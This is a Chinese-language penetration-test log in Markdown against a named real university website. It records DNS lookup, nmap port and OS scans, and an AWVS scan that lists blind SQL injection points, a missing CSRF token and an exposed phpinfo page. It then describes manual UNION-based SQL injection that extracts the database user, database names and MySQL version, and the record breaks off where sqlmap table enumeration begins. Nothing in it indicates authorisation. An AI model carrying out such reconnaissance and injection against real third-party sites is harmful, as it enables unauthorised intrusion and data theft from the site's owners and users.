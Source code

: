 
# 对目标1的渗透测试
### 信息收集
#### 菲律宾 php url：http://www.daotaonlyt.edu.vn/index.php?id=850
```
nslookup 查询ip 	118.69.204.204
Email[foo@mbnet.fi]
```
#### nmap基础扫描	
```code	
		20/tcp   closed ftp-data
		21/tcp   open   ftp
		23/tcp   closed telnet
		25/tcp   open   smtp
		80/tcp   open   http
		110/tcp  open   pop3
		143/tcp  open   imap
		443/tcp  open   https
		465/tcp  open   smtps
		587/tcp  open   submission
		993/tcp  open   imaps
		995/tcp  open   pop3s
		3306/tcp open   mysql
		8443/tcp closed https-alt
```
#### nmap 操作平台扫描	
```
 Aggressive OS guesses: Microsoft Windows XP SP3 or Windows 7 or Windows Server 2012 (95%), Microsoft Windows XP SP3 (95%), Actiontec MI424WR-GEN3I WAP (94%), Linux 3.2 (93%), DD-WRT v24-sp2 (Linux 2.4.37) (92%), Linux 4.4 (91%), VMware Player virtual NAT device (87%), BlueArc Titan 2100 NAS device (87%)
```
### AWVS默认扫描(侧重点：sql注入)：
```
		- apache+php+access
		- 4个盲注点，1个数据库爆破点
			/index.php?
		- 缺乏csrf保护，且登录数据明文传输
			/ 
			/atmail/index.php 
			/index.php 
			/index.php (054442b0b75dbfffca5b3df73d4e62e8) 
			/index.php (91e79522bf13f8bcaa7fbbfb4285d867) 
		- error信息未隐藏
		- session 未开启http-only保护
		- phpinfo暴露
			/php.php
		- javascrip库版本过低，带漏洞
			/JScript/jquery.min.js     http://bugs.jquery.com/ticket/11290 
```
#### 明小子进行注入
```
		- 注入点可注入，暴力拆解不出表名，不知道原因。
	7.手工检测注入点
		- order by 检测列数为24
		- 爆出显位 2 6 14-21
		- 2号位 联合查询当前数据库信息：daotaonlyt_thanh@localhost : daotaonlyt_dhyd : 5.0.51a-community
		- 2号位 全部数据库: information_schema,daotaonlyt_dhyd
		- 2号位 全部表名：语句执行出错，卡主，回到sqlmap
	8.sqlmap爆表名
```